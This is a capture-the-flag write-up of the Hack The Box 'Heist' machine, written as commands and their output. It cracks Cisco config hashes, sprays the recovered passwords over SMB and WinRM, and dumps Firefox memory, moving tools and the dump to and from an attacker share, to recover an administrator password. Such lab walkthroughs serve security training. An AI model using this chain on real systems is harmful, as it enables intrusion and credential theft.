


# Heist
https://app.hackthebox.com/machines/201

Target IP
10.10.10.149

## Enumeration
---

First lets start with [AutoRecon](https://github.com/Tib3rius/AutoRecon).
```
sudo $(which autorecon) 10.10.10.149 --dirbuster.wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

### Nmap


### Web page





```
$ curl http://10.10.10.149/attachments/config.txt 
version 12.2
no service pad
service password-encryption
!
isdn switch-type basic-5ess
!
hostname ios-1
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
!
ip ssh authentication-retries 5
ip ssh version 2
!
!
router bgp 100
 synchronization
 bgp log-neighbor-changes
 bgp dampening
 network 192.168.0.0 mask 300.255.255.0
 timers bgp 3 9
 redistribute connected
!
ip classless
ip route 0.0.0.0 0.0.0.0 192.168.0.1
!
!
access-list 101 permit ip any any
dialer-list 1 protocol ip list 101
!
no ip http server
no ip http secure-server
!
line vty 0 4
 session-timeout 600
 authorization exec SSH
 transport input ssh
```


```
$ echo -n "$1$pdQG$o8nrSzsGXeaduXrjlvKc91" > md5hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt md5hash.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 512/512 AVX512BW 16x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
stealth1agent    (?)     
1g 0:00:00:08 DONE (2022-10-28 15:14) 0.1128g/s 395788p/s 395788c/s 395788C/s stealthy001..stayfrost!
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

```
 wget https://raw.githubusercontent.com/theevilbit/ciscot7/master/ciscot7.py
--2022-10-28 15:04:54--  https://raw.githubusercontent.com/theevilbit/ciscot7/master/ciscot7.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3224 (3.1K) [text/plain]
Saving to: ‘ciscot7.py’

ciscot7.py                      100%[=====================================================>]   3.15K  --.-KB/s    in 0s      

2022-10-28 15:04:54 (41.1 MB/s) - ‘ciscot7.py’ saved [3224/3224]
```


```
$ python ciscot7.py -p 0242114B0E143F015F5D1E161713
Decrypted password: $uperP@ssword
```


```
$ python ciscot7.py -p 02375012182C1A1D751618034F36415408
Decrypted password: Q4)sJu\Y8qz*A3?d
```


| Password |
| --- |
| stealth1agent |
| $uperP@ssword |
| Q4)sJu\Y8qz*A3?d |


```
$ cat passwords.txt                                                          
stealth1agent
$uperP@ssword
Q4)sJu\Y8qz*A3?d
```

```
$ cat users.txt    
rout3r
admin
Hazard
```

```
$ crackmapexec smb 10.10.10.149 -u users.txt -p passwords.txt --shares --continue-on-success
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Hazard:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
```

| Username | Password |
|---|---|
| Hazard | stealth1agent |


```
$ crackmapexec smb 10.10.10.149 -u 'Hazard' -p 'stealth1agent' --shares
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [+] Enumerated shares
SMB         10.10.10.149    445    SUPPORTDESK      Share           Permissions     Remark
SMB         10.10.10.149    445    SUPPORTDESK      -----           -----------     ------
SMB         10.10.10.149    445    SUPPORTDESK      ADMIN$                          Remote Admin
SMB         10.10.10.149    445    SUPPORTDESK      C$                              Default share
SMB         10.10.10.149    445    SUPPORTDESK      IPC$            READ            Remote IPC
```

```
$ crackmapexec winrm 10.10.10.149 -u 'Hazard' -p 'stealth1agent' 
SMB         10.10.10.149    5985   NONE             [*] None (name:10.10.10.149) (domain:None)
HTTP        10.10.10.149    5985   NONE             [*] http://10.10.10.149:5985/wsman
WINRM       10.10.10.149    5985   NONE             [-] None\Hazard:stealth1agent
```


```
$ /usr/share/doc/python3-impacket/examples/lookupsid.py SupportDesk/Hazard:stealth1agent@10.10.10.149
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```

```
$ crackmapexec smb 10.10.10.149 -u 'Hazard' -p 'stealth1agent' --rid-brute 
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [+] Brute forcing RIDs
SMB         10.10.10.149    445    SUPPORTDESK      500: SUPPORTDESK\Administrator (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      501: SUPPORTDESK\Guest (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      513: SUPPORTDESK\None (SidTypeGroup)
SMB         10.10.10.149    445    SUPPORTDESK      1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1009: SUPPORTDESK\support (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1012: SUPPORTDESK\Chase (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1013: SUPPORTDESK\Jason (SidTypeUser)
```


```
$ cat users2.txt                                                       
Administrator
None
support
Chase
Jason 
```

```
$ crackmapexec smb 10.10.10.149 -u users2.txt -p passwords.txt --shares 
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Administrator:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Administrator:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Administrator:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\None:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\None:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\None:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\support:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\support:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\support:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Chase:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Chase:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d 
SMB         10.10.10.149    445    SUPPORTDESK      [+] Enumerated shares
SMB         10.10.10.149    445    SUPPORTDESK      Share           Permissions     Remark
SMB         10.10.10.149    445    SUPPORTDESK      -----           -----------     ------
SMB         10.10.10.149    445    SUPPORTDESK      ADMIN$                          Remote Admin
SMB         10.10.10.149    445    SUPPORTDESK      C$                              Default share
SMB         10.10.10.149    445    SUPPORTDESK      IPC$            READ            Remote IPC
```

| Username | Password |
|---|---|
| Hazard | stealth1agent |
| Chase | Q4)sJu\Y8qz*A3?d |


```
$ crackmapexec winrm 10.10.10.149 -u 'Chase' -p 'Q4)sJu\Y8qz*A3?d' 
SMB         10.10.10.149    5985   NONE             [*] None (name:10.10.10.149) (domain:None)
HTTP        10.10.10.149    5985   NONE             [*] http://10.10.10.149:5985/wsman
WINRM       10.10.10.149    5985   NONE             [+] None\Chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)
WINRM       10.10.10.149    5985   NONE             [-] None\Chase:Q4)sJu\Y8qz*A3?d "'NoneType' object has no attribute 'upper'"
```

```
$ evil-winrm -i 10.10.10.149 -u 'Chase' -p 'Q4)sJu\Y8qz*A3?d'
Evil-WinRM shell v3.4
...
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Chase\Documents> whoami
supportdesk\chase
```

```
*Evil-WinRM* PS C:\Users\Chase\Documents> cat C:\Users\Chase\Desktop\user.txt
1c39************************6250
```


```
*Evil-WinRM* PS C:\Temp> get-process

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
...
    347      19    10208      35824       0.61   1208   1 firefox
   1061      70   144732     221684       9.72   1388   1 firefox
    401      33    32524      90152       1.02   5288   1 firefox
    378      28    22632      59388       0.80   6368   1 firefox
    355      25    16436      39072       0.11   6716   1 firefox
...
```


```
*Evil-WinRM* PS C:\Users\Chase\Documents> xcopy \\10.10.14.14\share\procdump64.exe C:\Temp\
\\10.10.14.14\share\procdump64.exe
1 File(s) copied
```


```
*Evil-WinRM* PS C:\Temp> get-process -name firefox

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
    347      19    10208      35824       0.61   1208   1 firefox
   1061      70   144732     221684       9.72   1388   1 firefox
    401      33    32524      90152       1.02   5288   1 firefox
    378      28    22632      59388       0.80   6368   1 firefox
    355      25    16436      39072       0.11   6716   1 firefox
```


```
*Evil-WinRM* PS C:\Temp> .\procdump64.exe -ma 1388

ProcDump v10.11 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[05:30:36] Dump 1 initiated: C:\Temp\firefox.exe_221029_053036.dmp
[05:30:36] Dump 1 writing: Estimated dump file size is 508 MB.
[05:30:38] Dump 1 complete: 508 MB written in 1.5 seconds
[05:30:38] Dump count reached.
```


```
*Evil-WinRM* PS C:\Temp> xcopy firefox.exe_221029_053036.dmp \\10.10.14.14\share\
C:firefox.exe_221029_053036.dmp
```


```
$ strings firefox.exe_221029_053036.dmp | grep login.php
"C:\Program Files\Mozilla Firefox\firefox.exe" localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
O^privateBrowsingId=1,p,:http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
:http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
:http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```


```
$ cat passwords.txt     
stealth1agent
$uperP@ssword
Q4)sJu\Y8qz*A3?d
4dD!5}x/re8]FBuZ
```

```
$ crackmapexec smb 10.10.10.149 -u users2.txt -p passwords.txt --shares --continue-on-success
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Administrator:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Administrator:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Administrator:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Administrator:4dD!5}x/re8]FBuZ (Pwn3d!)
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\support:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\support:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\support:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\support:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Chase:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Chase:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Chase:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Jason:stealth1agent STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Jason:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Jason:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Jason:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Hazard:$uperP@ssword STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE 
SMB         10.10.10.149    445    SUPPORTDESK      [-] SupportDesk\Hazard:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE
```




| Username | Password |
|---|---|
| Hazard | stealth1agent |
| Chase | Q4)sJu\Y8qz*A3?d |
| Administrator | 4dD!5}x/re8]FBuZ |


```
$ evil-winrm -i 10.10.10.149 -u 'Administrator' -p '4dD!5}x/re8]FBuZ'
Evil-WinRM shell v3.4
...
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
supportdesk\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat C:\Users\Administrator\Desktop\root.txt
2b7e************************37b3
```